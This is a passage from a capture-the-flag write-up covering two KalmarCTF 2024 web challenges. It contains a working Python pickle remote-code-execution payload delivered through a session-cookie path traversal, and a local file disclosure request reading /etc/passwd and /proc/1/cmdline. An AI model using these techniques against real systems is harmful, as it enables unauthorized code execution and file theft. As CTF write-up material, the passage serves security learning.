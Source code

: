 So, I set my cookie to `xxx` and uploaded a file on my local instance. This revealed that `xxx` mapped to `254b2716336df2553ce5c04a934d56e4` so we can use this as the name for our serialized Pickle object. We will upload the output of the following script to `/app/flask_session/254b2716336df2553ce5c04a934d56e4` here:

```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('cp /flag.txt /app/static/uploads/abcd.txt')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    return b"\x00"*4 + payload


with open("254b2716336df2553ce5c04a934d56e4", "wb") as f:
    f.write(generate_exploit())
```

Next, I set my session cookie to `../../flask_session` and uploaded the file. This overwrote the session.

Then I set my session to `xxx` and refreshed the page. Lastly, I visited `/static/uploads/abcd.txt` path and got the flag!

`kalmar{still_p1ckling_away_in_2024}`

## Web/BadAss Server for Hypertext
This was a sourceless web (ew) but was surprisingly fun and insightful! I guess sourceless web isn't all bad after all. :P

I pretty quickly found that the 404 error page was showing the output of a `cat` command which indicated that we were dealing with a server that was piping all paths into `cat` and displaying the result! We can easily read local files using this...

`GET /../../etc/passwd` confirmed the worst fears of LFD!!

The next step is to make this **not** a sourceless web challenge. One of my teammates (gg0h) tried out `/proc/1/cmdline` and found the following:

```
socatTCP4-LISTEN:8080,reuseaddr,forkEXEC:/app/badass_server.sh
```
From this he was able to read `/app/badass_server.sh` which contained the following:

```bash
#!/bin/bash

# I hope there are no bugs in this source code...

set -e

declare -A request_headers
declare -A response_headers
declare method
declare uri
declare protocol
declare request_body
declare status="200 OK"

abort() {
	declare -gA response_headers
	status="400 Bad Request"
	write_headers
```